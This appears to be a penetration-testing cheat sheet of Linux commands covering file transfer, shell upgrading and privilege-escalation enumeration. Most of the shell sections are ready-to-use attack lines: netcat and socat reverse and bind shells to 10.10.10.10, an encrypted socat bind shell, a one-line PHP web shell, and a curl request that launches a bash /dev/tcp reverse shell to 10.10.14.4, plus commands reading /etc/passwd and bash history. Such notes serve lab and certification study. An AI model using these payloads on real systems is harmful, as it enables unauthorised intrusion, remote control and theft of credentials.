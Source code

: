# Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- id; uname -a; whoami
- hostname
- `/etc/issue` `/etc/*-releas`
- cat /etc/passwd
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
